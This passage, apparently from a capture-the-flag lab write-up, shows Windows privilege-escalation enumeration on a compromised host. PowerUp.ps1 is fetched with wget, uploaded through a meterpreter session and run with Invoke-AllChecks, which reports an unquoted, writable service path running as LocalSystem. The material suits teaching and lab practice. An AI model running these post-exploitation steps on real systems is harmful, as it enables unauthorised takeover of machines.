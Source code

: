 ```bash
$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
$ ls
PowerUp.ps1  nmap
meterpreter > upload PowerUp.ps1
```

To run the `PowerUp.ps1` script, we should be inside a powershell instance. We can load powershell to meterpreter by typing `load powershell` and enter it using the command `powershell_shell`.

```bash
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS > 
```

Once we have the powershell instance, we can execute the `PowerUp.ps1` file we uploaded to the machine.

```Powershell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
```